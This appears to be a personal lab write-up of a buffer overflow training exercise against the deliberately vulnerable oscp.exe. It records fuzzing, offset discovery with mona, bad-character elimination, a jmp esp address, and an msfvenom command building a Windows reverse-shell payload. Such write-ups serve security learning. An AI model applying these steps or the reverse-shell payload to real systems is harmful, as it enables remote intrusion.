 # Buffer_Overflow_prep 

> VOiD | Friday 12 November 2021 05:33:18 PM IST

My IP : 10.8.253.221
Target IP : 10.10.135.6

```bash
xfreerdp /u:admin /p:password /cert:ignore /v:10.10.135.6 /workarea

!mona config -set workingfolder C:\Users\VOiD\Desktop\%p
```

## OVERFLOW1
```bash
python3 fuzzer.py 
Fuzzing crashed at 1200 bytes

To create the cyclic pattern

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600

python3 exploit.py
```
The script should crash the oscp.exe server again. This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:
```bash
!mona findmsp -distance 2000

0BADF00D      	  [+] Examining registers
0BADF00D          EIP contains normal pattern : 0x6f43396e (offset 1978)
0BADF00D          ESP (0x00bdfa18) points at offset 1982 in normal pattern (length 18)
0BADF00D          EBP contains normal pattern : 0x43386e43 (offset 1974)
0BADF00D          EBX contains normal pattern : 0x376e4336 (offset 1970)

!mona bytearray -b "\x00"
```



```bash
Offset : 1978

!mona compare -f bytearray.bin -a 00CCFA18

mona Memory comparison results, item 0
 Address=0x00ccfa18
 Status=Corruption after 6 bytes
 BadChars=00 07 08 2e 2f a0 a1
 Type=normal
 Location=Stack

Remember that badchars can affect the next byte as well

Badchars : "\x00\x07\x2e\xa0"

!mona bytearray -b "\x00\x07\x2e\xa0"

!mona compare -f bytearray.bin -a  00C1FA18

mona Memory comparison results, item 0
 Address=0x00c1fa18
 Status=Unmodified
 BadChars=
 Type=normal
 Location=Stack

badchar confirmed
```
Finding a Jump Point

With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):
```bash
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"

Log data, item 6
 Address=625011EB
 Message=  0x625011eb : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\VOiD\Desktop\vulnerable-apps\vulnerable-apps\oscp\essfunc.dll)


EIP = 

msfvenom -p windows/shell_reverse_tcp LHOST=10.8.253.221 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```

